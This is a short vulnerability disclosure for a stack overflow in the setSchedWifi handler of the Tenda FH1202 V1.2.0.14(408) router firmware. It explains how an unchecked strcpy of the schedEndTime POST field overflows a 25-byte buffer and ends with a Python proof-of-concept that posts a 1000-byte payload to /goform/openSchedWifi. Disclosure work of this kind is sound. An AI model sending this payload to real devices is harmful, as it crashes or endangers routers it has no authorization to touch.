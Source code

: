 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `v6` variable receives the `schedEndTime` parameter from a POST request and is later assigned to the `ptr` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedEndTime`, the statement `strcpy((char *)ptr + 10, v6);` can cause a buffer overflow. The user-provided `schedEndTime` can exceed the capacity of the `ptr` array, triggering this security vulnerability.

![image-20240305225509194](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305225509194.png)

![image-20240305225530022](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305225530022.png)

![image-20240319134434006](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134434006.png)

![image-20240319134449058](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319134449058.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedEndTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240319222906618](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319222906618.png)
